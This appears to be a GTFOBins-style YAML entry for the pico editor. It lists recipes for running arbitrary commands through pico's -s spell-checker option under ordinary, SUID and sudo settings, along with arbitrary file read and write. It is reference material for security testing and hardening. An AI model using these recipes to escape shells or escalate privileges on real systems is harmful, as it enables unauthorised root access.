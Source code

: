 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        pico file_to_write
        ^O
  file-read:
    - code: pico file_to_read
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

